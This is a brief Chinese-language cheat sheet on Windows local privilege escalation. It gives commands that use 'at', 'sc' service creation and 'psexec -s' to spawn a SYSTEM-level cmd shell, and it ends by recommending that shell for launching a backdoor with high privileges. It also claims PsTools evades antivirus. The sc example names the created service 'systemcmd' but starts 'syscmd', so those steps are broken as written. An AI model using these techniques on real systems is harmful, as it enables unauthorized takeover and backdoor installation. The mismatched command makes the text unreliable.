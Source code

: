## **at提权**
利用条件：Windows2000、Windows2003、WindowsXP这三类系统中，个人电脑不行。
Windows2008后改为sc命令了。

at是一个发布定时任务计划的命令行工具，语法比较简单。通过at命令发布的定时任务计划Windows默认以SYSTEM权限运行。

定时打开一个system权限的cmd
```
at 10:45 /interactive cmd
```

## **sc提权**
利用条件：windows7/8，Windowsserver2003、2008、2012、2016存在sc命令。但多少有防护，Windowsserver2003最容易。

创建cmd服务，启动服务
```
sc Create systemcmd binPath= "cmd /K start" type= own type= interact  
其中systemcmd是服务名称可以随意填写，
binpath是启动的命令，type=own是指服务这个服务属于谁，
type=interact，cmd/k start 这个命令，这个命令就是启动一个新的cmd窗口。

sc start syscmd     
启动服务
```

## **ps提权（最好）**
利用条件：Windowsserver2003/2008/2012/2016中测试都是能用的，在Windows7/8/10由于需要调用服务，而个人主机通常没有这类服务所以就会出现调用失败的情况。

pstools是微软官方工具，是为windows提供的第三方工具库。需要手动安装，是自带免杀的。
<https://learn.microsoft.com/zh-cn/sysinternals/downloads/pstools>

启动一个system权限的cmd
```
psexec.exe -accepteula -s -i -d cmd.exe  
```


## **利用**
使用system权限的cmd 运行上线后门，实现高权限上线。
